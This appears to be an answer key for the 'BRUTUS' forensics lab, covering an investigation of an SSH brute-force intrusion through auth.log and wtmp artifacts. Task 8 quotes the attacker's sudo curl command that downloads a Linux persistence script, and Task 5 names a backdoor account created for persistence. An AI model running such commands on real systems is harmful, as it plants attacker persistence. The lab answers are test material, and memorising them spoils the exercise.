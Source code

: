 # BRUTUS

### Task 1 
Analyze the auth.log.
What is the IP address used by the attacker to carry out a brute force attack?
> 65.2.161.68

### Task 2
The brute-force attempts were successful and an attacker gained access to an account on the server. \
What is the username of the account?
> root

### Task 3
Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. \
The login time will be different than the authentication time, and can be found in the wtmp artifcat.
> 2024-03-06 06:32:45

### Task 4
SSH login sessions are tracked and assigned a session number upon login. \
What is the session number assigned to the attacker's session for the user account from Question 2?
> 37

### Task 5
The attacker added a new user as part of their persistence strategy on the server and gave this user account higher privileges. \
What is the name of this account?
> cyberjunkie

### Task 6
What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?
>T1136.001

### Task 7
What time did the attacker's first SSH session end according to auth.log?
> 2024-03-06 06:37:24

### Task 8
The attacker logged into their backdoor account and utilized their higher privileges to download a script. \
What is the full command executed using sudo?
>/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh


